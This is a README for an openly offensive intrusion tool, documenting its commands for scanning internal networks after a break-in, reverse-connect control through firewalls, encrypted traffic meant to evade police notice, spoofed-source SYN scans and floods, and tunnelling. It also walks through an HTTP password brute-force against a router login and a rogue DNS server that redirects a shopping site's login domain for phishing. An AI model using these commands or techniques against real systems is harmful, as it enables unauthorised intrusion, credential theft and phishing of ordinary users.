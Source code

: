 ﻿
## scanner_framework ##


中文:
网络探测框架,适用于入侵到内网探测其它网络设备,探测器具有体积小,功能多,而且带有反向连接从内网穿透出外网连接控制终端,通信数据采用动态加密,再也不怕警察叔叔知道我在干坏事儿啦,为了方便破解一些弱口令设备,内部带有在线破解功能(暂时支持HTTP 破解).如果觉得这些功能满足不了需求,可以使用端口映射把你需要的工具直接通过隧道对接到内网的某台指定的主机端口上进行扫描..  --  LCatro<br/>

English:
This is an internal network scanner like meterpreter .I will create more function into it scanner (now include many basic network scanner and network crack [like BurpSuite,crack HTTP]).Reverse connect function is to facilitate the attacker management hacked machine and crypte communication.Tunnel connect help your attack process's network flow  crossing the firewall of internal network.<br/>


***

###启动方式  [How to launch it ]
scanner.exe 控制台启动  [Launch it by console]<br/>
scanner.exe -bind [%port%] 绑定端口,远程访问  [Bind a local port for waitting you to connect it]<br/>
scanner.exe -recon %ip% [%port%] 反向连接,远程访问,默认是80,注意记得先启动reverse_server ,不然scanner.exe 不能成功连接  [Reverse connect to specify ip,WARNING!Remenber launch reverse_server first and then using this parameter launch scanner.exe]<br/>

###使用方法  [How to use it ]
扫描当前网段存活的主机,并且自动搜集数据  [using ARP request to query live machine in current network]<br/>
__using:arp__<br/>
获取当前主机的网络信息  [get this machine's information]<br/>
__using:local__<br/>
测试主机是否连通  [ping ..you most know it ..]<br/>
__using:ping %ip/host%__<br/>
TCP SYN 扫描主机  [tcp syn scan,set -P scanner will testing port,set -F is fake a ip for hide itsalf in attack flow]<br/>
__using:scan %ip% [-P:[port1,port2,port3,...]] [-F:[fake_ip1,fake_ip2,...]]__<br/>
洪水攻击主机  [dont use it ,because you will expose,so i never develop this function]<br/>
__using:flood %ip% [-P:[port1,...]] [-F:[fake_ip1,...]]__<br/>
在线破解  [online crack]<br/>
__using:crack %ip% %port% [%user_dictionary_path% %password_dictionary_path%]__<br/>
路由跟踪  [tracert route]<br/>
__using:tracert %ip/host%__<br/>
抓取页面  [get a HTML page on server]<br/>
__using:getpage %ip% [-PORT:%port%] [-PATH:%path%]__<br/>
启动端口转发功能  [tunnal port]<br/>
__using:route -R:[%remote_ip%,%remote_port%] -L:[[%local_ip%,]%local_port%]__<br/>
启动DNS 服务器 [dns server]<br/>
__using:dns [run|start] | add %host% %ip% | delete %ip%__<br/>
获取外网IP 地址和粗略定位 [get internet ip no is internal network ip and get the location]<br/>
__using:ip__<br/>
显示帮助  [show help]<br/>
__using:help__<br/>
退出  [exit scanner]<br/>
__using:quit__<br/>


***

###在线破解  [About Online Crack]
>在线破解功能原理是通过自己构造特定的HTTP 数据包然后程序根据字典穷举测试出帐号密码
>
>什么是表达式?
>
>表达式的意思是给程序一个填充数据的框架,在接下来的穷举测试中会根据表达式内的关键字来填充数据,下面是在线破解的例子:
>
>本地网络192.168.1.103:80 启用了PHP 服务器,在探测器里面输入破解命令
>
>crack 192.168.1.103 80
>
>然后会提示输入表达式
>
>input your crack express:
>
>输入数据包数据:
>POST http://192.168.1.103:80/api/analays.php HTTP/1.1<br/>
>Accept: application/x-ms-application, image/jpeg, application/xaml+xml, image/gif, image/pjpeg, application/x-ms-xbap, application/vnd.ms-excel, application/vnd.ms-powerpoint, application/msword, */*<br/>
>Referer: http://192.168.1.103/api/analays.php<br/>
>Accept-Language: zh-CN<br/>
>User-Agent: Mozilla/4.0 (compatible; MSIE 7.0; Windows NT 6.1; WOW64; Trident/5.0; SLCC2; .NET CLR 2.0.50727; .NET CLR 3.5.30729; .NET CLR 3.0.30729; .NET4.0C; .NET4.0E)<br/>
>Content-Type: application/x-www-form-urlencoded<br/>
>Accept-Encoding: gzip, deflate<br/>
>Host: 192.168.1.103<br/>
>Content-length: %length%<br/>
>Pragma: no-cache<br/>
><br/>
>__user=%username%&pass=%password%__<br/>
>
>其中Content-length: %length% 的意思是让程序自动在此填充上下文的大小[因为这个长度是会变化的],%username% 和%password% 就是自动填充用户名和密码<br/>[这里也可以不需要全部都用,比如破解水星路由器,直接填%password% 即可启动]<br/>最后输入<end>来确认数据包填写完成,如果中间某个位置出现填写错误就输入<reset>来重新填写破解数据包,下面的输入成功判断条件也是同理..
>
>input your check term:
>
>输入成功判断条件,由于经过测试,如果输入密码成功的话,页面会返回一个包含Success 的字符串,然后把他作为破解成功的测试条件..<br/>
>Success
>
>now cracking!
>
>__network crack - target:192.168.1.103:80<br/>
>username:root password:toor__
>
>破解完成
>
>
>表达式函数:
>
>__base64(%string%)__ -- 采用base64 编码<br/>
>__time()__ -- 获取系统时间<br/>
>__len(%string%)__ -- 统计字符串长度<br/>
>__rnd([%low%-%up%])__ -- 在%low% 到%up% 之间生成随机数<br/>
>
>Example :
>
>破解水星的数据包 (其它都差不多,关键在Cookie):
>
>Cookie: a2404_pages=10; a2404_times=5; __Authorization=Basic%20base64(admin:%password%)__
>
>接下来会把%password% 先填充好之后再编码base64
>
>WARNING! 由于水平问题还做不出递归,请见谅 ..  
>


***

####DNS 服务器 [About DNS Server]

DNS 服务器是针对内网的信息钓鱼,比如通过伪造的站点来钓得更多的个人信息或者欺骗应用程序更新,如果上面的用法还不太明白的话可以看这里 [DNS server usualy use redirecting to phishing sites]<br/>

dns run 启动DNS 服务器 [run dns server]<br/>
dns exit 退出DNS 服务器 [exit dns server]<br/>
dns add m.login.taobao.com 127.0.0.1 把淘宝的手机登陆域名绑定到本地IP [point m.login.taobao.com to localhost via dns setting]<br/>
dns delete www.baidu.com 删除DNS 查询项目 [delete this record]<br/>

<br/>

####端口转发原理 [tunnal port design]
####![image](https://raw.githubusercontent.com/lcatro/network_backdoor/master/scanner_framework/route_design.png)


***

###Other

#####reverse_server 是用来做反向连接用的服务端

#####scanner.exe -bind 参数启动程序需要自己主动连过去,但是客户端还没写,也没什么需求,以后慢慢来..